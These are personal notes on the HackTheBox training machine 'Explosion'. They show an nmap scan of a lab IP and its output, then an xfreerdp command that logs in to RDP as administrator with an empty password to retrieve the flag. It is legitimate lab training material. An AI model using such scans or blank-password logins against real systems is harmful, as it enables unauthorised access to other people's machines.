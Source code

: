 ```toc
```
# HTB Notes - Explosion #

+ **Date**: 12-3-2022
+ **Author**: Noah Soqui
+ **Tags**: #RDP #Network

## Intelligence Gathering ##

Scanning the target
+ `sudo nmap -sV -sC -O 10.129.1.13` 
+ Output:
``` shell
Nmap scan report for 10.129.1.13
Host is up (0.045s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-12-04T05:13:43+00:00
|_ssl-date: 2022-12-04T05:13:52+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-12-03T05:11:48
|_Not valid after:  2023-06-04T05:11:48
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

## Misconfiguration and Vulnerability Analysis  ##

The RDP service can be accessed without a password, allowing easy access.

## Exploitation ##

Connect to a RDP service
+ `xfreerdp /u:administrator /p:'' /v:10.129.1.13`
	+ Note: Administrator is often a good choice as a username, and in this case a null password is passed and accepted

## Post Exploitation ##

Following the connection to the RDP service with <mark style="background: #FFB86CA6;">xfreerdp</mark> 
+ Able to navigate using the normal windows file system, and copy the flag

## Reporting ##

### Executive Summary ###

RDP is a helpful windows proprietary service to interact with a machine remotely. Though in this case it was configured to allow authentication without a password. This allows it to be accessed easily.